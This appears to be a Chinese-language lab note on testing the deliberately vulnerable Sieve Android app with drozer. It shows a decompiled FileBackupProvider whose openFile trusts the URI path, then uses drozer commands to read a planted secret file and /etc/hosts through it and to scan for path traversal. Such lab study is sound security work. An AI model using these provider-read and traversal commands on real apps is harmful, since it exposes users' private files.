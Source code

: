 ```yaml
---
title: Test Sieve - content providers exported - File SystemBased
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


# Test Sieve - content providers exported - File SystemBased
<!-- more -->
1. 有關於基於File System的Content Provider - 逆向
    在`com.mwr.example.sieve.FileBackupProvider`中可以特別注意onCreate以及ParcelFileDescriptor這個funnction
    ```java
    public class FileBackupProvider extends ContentProvider {
        ...
        @Override // android.content.ContentProvider
        public boolean onCreate() {
            this.sUriMatcher.addURI("com.mwr.example.sieve.FileBackupProvider", "*", DATABASE);
            return false;
        }

        @Override // android.content.ContentProvider
        public ParcelFileDescriptor openFile(Uri uri, String mode) {
            int modeCode;
            if (mode.equals("r")) {
                modeCode = 268435456;
            } else if (mode.equals("rw")) {
                modeCode = 805306368;
            } else if (mode.equals("rwt")) {
                modeCode = 805306368;
            } else {
                Log.w(TAG, "Unrecognised code to open file: " + mode);
                return null;
            }
            try {
                return ParcelFileDescriptor.open(new File(uri.getPath()), modeCode);
            } catch (FileNotFoundException e) {
                Log.e(TAG, "ERROR: unable to open file: " + e.getMessage());
                return null;
            }
        }
    ```
5. 實際讀取文件或是Path Traversal
    為了測試他真的能夠讀取到特定文件，我在手機的Download創了一個secret.txt，不管是哪一個file，都可以正常讀取
    ```bash
    $ echo "this is secret file" > /storage/emulated/0/Download/secret.txt
    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/storage/emulated/0/Download/secret.txt
    Attempting to run shell module
    this is secret file

    dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
    Attempting to run shell module
    127.0.0.1       localhost
    ::1             ip6-localhost
    ```
    也可以利用drozer自動找尋path traversal的漏洞在哪裡
    ```bash
    dz> run scanner.provider.traversal -a com.mwr.example.sieve
    Attempting to run shell module
    Scanning com.mwr.example.sieve...
    Not Vulnerable:
      content://com.mwr.example.sieve.DBContentProvider/Keys/
      content://com.mwr.example.sieve.DBContentProvider/Passwords
      content://com.mwr.example.sieve.DBContentProvider/Passwords/
      content://com.mwr.example.sieve.DBContentProvider/
      content://com.mwr.example.sieve.DBContentProvider/Keys
      content://com.mwr.example.sieve.DBContentProvider

    Vulnerable Providers:
      content://com.mwr.example.sieve.FileBackupProvider
      content://com.mwr.example.sieve.FileBackupProvider/
    ```